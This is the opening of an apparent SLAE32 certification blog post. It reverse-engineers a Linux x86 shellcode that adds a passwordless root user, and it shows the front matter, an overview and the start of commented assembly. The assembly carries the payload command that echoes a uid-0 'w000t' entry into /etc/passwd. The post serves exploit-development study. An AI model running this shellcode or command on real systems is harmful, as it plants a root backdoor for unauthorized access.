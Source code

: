 ```yaml
---
title: SLAE32 Assignment 6.3 - Polymorphic Add User /etc/passwd
date: 2019-9-21
layout: single
classes: wide
tags:
  - polymorphic
  - passwd
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)
```console
This blog post has been created for completing the requirements
 of the SecurityTube Linux Assembly Expert certification:
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
	- Now at: https://www.pentesteracademy.com/course?id=3
SLAE/Student ID: PA-10913
```
## Overview
This shellcode is a polymorphic version of zillions `w000t-shell.c` shellcode.  
+ The original shellcode can be found at: http://shell-storm.org/shellcode/files/shellcode-543.php.
+ The original shellcode is `137 bytes`.
+ The final polymorphic version of the shellcode is `107 bytes`.

## Analyzing the Shellcode
To begin to create a polymorphic version of this shellcode I first had to understand it.   
Since there was only the hex of the shellcode in the post,  I reverse engineered the hex and created this mock-up of the original Assembly Instructions.  
#### Mock-up of Original Shellcode
```nasm
global _start
section .text
_start:
  jmp short jmp2call        ; jump2call so we can get the string location on the stack.
string2stack:
  pop esi                   ; pop memory location of string "/bin/sh#-c#/bin/echo.." into esi
  xor eax, eax              ; clear out eax register
  mov byte [esi +7], al     ; Null byte to terminate string "/bin/sh"
  mov byte [esi +10], al    ; Null byte to terminate string "-c"
  mov byte [esi +71], al    ; Null byte to terminate string
                            ; "/bin/echo w000t::0:0:s4fem0de:/root:/bin/bash >> /etc/passwd"
  mov dword [esi +73], esi  ; argv[] array start. Memory pointer to string "/bin/sh"
  lea ebx, [esi +8]         ; move pointer to string "-c" into ebx register
```